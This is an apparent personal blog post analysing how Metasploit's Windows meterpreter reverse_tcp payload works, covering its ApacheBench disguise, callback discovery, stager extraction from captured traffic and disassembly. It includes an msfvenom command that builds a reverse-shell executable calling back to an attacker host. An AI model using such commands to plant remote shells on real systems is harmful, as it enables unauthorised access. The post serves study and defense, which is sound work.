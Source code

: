 ```yaml
---
title: Reversing Metasploit Payload Part-1
author: malformX
date: 2022-03-05 23:05:00 +0530
categories: [Reversing, Analogy, metasploit]
tags: [RE, metasploit, IDA, Windows]
---
```


## Intro
Hello fellas. This is the first blog that I've ever created. This blog is totally about analyzing how metasploit framework's `reverse_tcp` shell for windows works. For any newbie reader, metasploit-framework is an amazing tool which can be used to do pen-testing. It also ships with `msfvenom` which is capable of generating raw shell-codes, platform specific payloads and reverse shells. I'm not going to talk and give a tutorial about metasploit or about how to hack a computer using metasploit here. For anyone who's interested, **Google is your ally**.

## Context
So, what the hell am i going to talk about then? This blog is totally about my analogy about that particular payload i mentioned. As a CTF player i used this payload a lot. And recently it made me wonder how this thing works. I mean a normal reverse shell can be acquired by simply spawing a cmd/powershell process. But a meterpreter who can also do lateral movement on the target machine? It is a whole different story. So i started seeing what is really happening under the hood. And i thought about archiving my understanding through blogging. This is actually going to be a series. So i'll post my findings as one thing at a time, or maybe two. Okay, maybe three, three at a time.

> I will try to understand and explain this mess deeply as much as possible. But if i failed to include anything here, those things would be mostly available in Google.
>{: .prompt-note }

So let's dive in deeper.

## Observation
Let's talk about whatever i noted while using that particular payload. 
First i created the payload using the following command:
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=testserver.dom LPORT=9000 -f exe > shell_dyna.exe`
This will create an exe(executable) file in the current working directory. Then i listened in the msfconsole shell for the connection. But before doing anything we can start by seeing what kind of file it is.

![image-20220227230908269](/commons/posts/2022-03-05-reversing-metasploit-payload-part-1.assets/image-20220227230908269.png) [^ note1]

We can copy it to our target machine. In my case my Win7 VM which was configured with [flare](https://github.com/mandiant/flare-vm) packages.
By opening the properties of the file we can see that the description tells it is an **ApacheBench command line utility**

![image-20220227231644992](/commons/posts/2022-03-05-reversing-metasploit-payload-part-1.assets/image-20220227231644992.png)

ApacheBench is a utility used to test the performance of the apache server. This description is sort of a evasion technique and it can evade the unexperienced eyes and avoid suspicion. Now let's see what are the strings embedded in the binary.

![image-20220227233246127](/commons/posts/2022-03-05-reversing-metasploit-payload-part-1.assets/image-20220227233246127.png)

It got some WinAPI function names. Probably these are the imports of our payload. We'll comeback to this later.

But what's interesting here is there are some strings embedded here which may look legit.

![image-20220227233647799](/commons/posts/2022-03-05-reversing-metasploit-payload-part-1.assets/image-20220227233647799.png)

These are common strings of a web server. And it even has the string ApacheBench. _Huh! What a legitimate application it is_.
But still there isn't any inclusion of the IP/domain_name/port_numbers which means this thing is obfuscated.
Now let's see how to get the C2 server's IP and what port it is trying to connect.

## Finding the C2 server's IP/Port

For this we can simply use [fakenet-ng](https://github.com/mandiant/flare-fakenet-ng). This tool can sniff all the network requests from applications. Also application's real request won't reach the server and also will save the network traffic to pcapng file which can be analyzed further with Wireshark . So safe from malwares talking to the C2, _yayyy_.

Let's open up the fakent-ng and execute our sneaky malware.
![image-20220227235608131](/commons/posts/2022-03-05-reversing-metasploit-payload-part-1.assets/image-20220227235608131.png)

That's it we got the IP and Port. But notice it is calling the IP address. But if you noticed [^ note1] here, i specified a domain name. To make it clear i binded the domain name `testserver.dom` to my IP by editing my `/etc/hosts` file. I did that so that i don't have to recreate the payload again and again if i change my network setting. But looks like the domain name is getting resolved to the IP. In fact it isn't possible to bind a non existing domain to the payload.

![image-20220228002242694](/commons/posts/2022-03-05-reversing-metasploit-payload-part-1.assets/image-20220228002242694.png)

But any IP is possible. Even if it is out of reach.
Also one other thing that i noticed is, the application closes itself if the IP is dead.
Okay now let's see how we can capture the tcp data using wireshark and extract the stager DLL.

## Extracting the Stager

Listen in the meterpreter shell as i mentioned before. 

![image-20220305221334375](/commons/posts/2022-03-05-reversing-metasploit-payload-part-1.assets/image-20220305221334375.png)

Let's open up our VM and make sure you have the malicious executable. But before running it up we need to make sure the wireshark is running with admin rights.

![image-20220305221531138](/commons/posts/2022-03-05-reversing-metasploit-payload-part-1.assets/image-20220305221531138.png)

At first we won't see any traffic. Now let's run our exe and come back.

![image-20220305221636591](/commons/posts/2022-03-05-reversing-metasploit-payload-part-1.assets/image-20220305221636591.png)

After double-clicking on our payload we get a call back from our victim machine. Now go back to wireshark, there'll be a bunch of tcp packets from the port 9000. And that 9000 is the port that was used to bind the payload.

![image-20220305221844135](/commons/posts/2022-03-05-reversing-metasploit-payload-part-1.assets/image-20220305221844135.png)

We can follow the stream which will result in the whole data stream that was traveled on that session. We can do that by right clicking on the first packet which has the source port of 9000. And choosing `Follow` and then choosing `Tcp Stream` from the subsection there.

![image-20220305222422917](/commons/posts/2022-03-05-reversing-metasploit-payload-part-1.assets/image-20220305222422917.png)

Once we follow up, we'll get our stager.

![image-20220305222535831](/commons/posts/2022-03-05-reversing-metasploit-payload-part-1.assets/image-20220305222535831.png)

We can see it is starting with the default PE header which is `MZ` and we also see the message `This program cannot be run in DOS mode.` which is called `DOS-Stub`. These are the magic bytes for all windows executables. 
We can change the `Show data as` option to `raw` from `Ascii` which will include all the bits of binary data, then we can use `Save as` option and save it as raw. Let's save it as stager.dll for now. But when we check the file type it shows the file is just data.

![image-20220305223301698](/commons/posts/2022-03-05-reversing-metasploit-payload-part-1.assets/image-20220305223301698.png)

The reason for this is, if we noted in the Tcp Stream we can see there is bunch of data pre-pended to our stager. We can verify this by opening it in some hex viewer.

![image-20220305223755018](/commons/posts/2022-03-05-reversing-metasploit-payload-part-1.assets/image-20220305223755018.png)

 The first 4 bytes are pre-pended here. And it should probably be some kind of session initialization request. And i'll analyze about this in the further blog of this same series. But right now just edit this first 4 bytes and fix our DLL's header. We can open this in any hex editor and remove those 4 bytes.

![image-20220305224106044](/commons/posts/2022-03-05-reversing-metasploit-payload-part-1.assets/image-20220305224106044.png)

Let's remove it now. 

![image-20220305224141396](/commons/posts/2022-03-05-reversing-metasploit-payload-part-1.assets/image-20220305224141396.png)

Now we've fixed it. We can save it and let's check the file again.

![image-20220305224245266](/commons/posts/2022-03-05-reversing-metasploit-payload-part-1.assets/image-20220305224245266.png)

And here we go. We can load it in any disassembler and verify it indeed is our DLL and not some prank by the malware author.

![image-20220305224506199](/commons/posts/2022-03-05-reversing-metasploit-payload-part-1.assets/image-20220305224506199.png)

Okayyy, we actually see the `DllMain` right here. Which is good for us. Because this means the `main` function isn't obfuscated somewhere sketchy, and we don't have to go dig for it. And also we see a lots of function imports.

![image-20220305224707807](/commons/posts/2022-03-05-reversing-metasploit-payload-part-1.assets/image-20220305224707807.png)

Good..!! GOOOD..
Now let's execute some command and see the network traffic.

![image-20220305224913019](/commons/posts/2022-03-05-reversing-metasploit-payload-part-1.assets/image-20220305224913019.png)

And on our analysis machine..

![image-20220305225034911](/commons/posts/2022-03-05-reversing-metasploit-payload-part-1.assets/image-20220305225034911.png)

Note that i made a filter for showing the packets originating only from my attacker machine. But if you see the data it is encrypted. And it is because the DLL is using encryption on the transmitted data. 

## Conclusion

I just blogged a little fraction of the whole analysis int his post. In the next blog post i'll analyze it more and see what other things it does on the Go. I'll also post things that i forgot (or too lazy) to include here in this post. So let's see sometime later :)
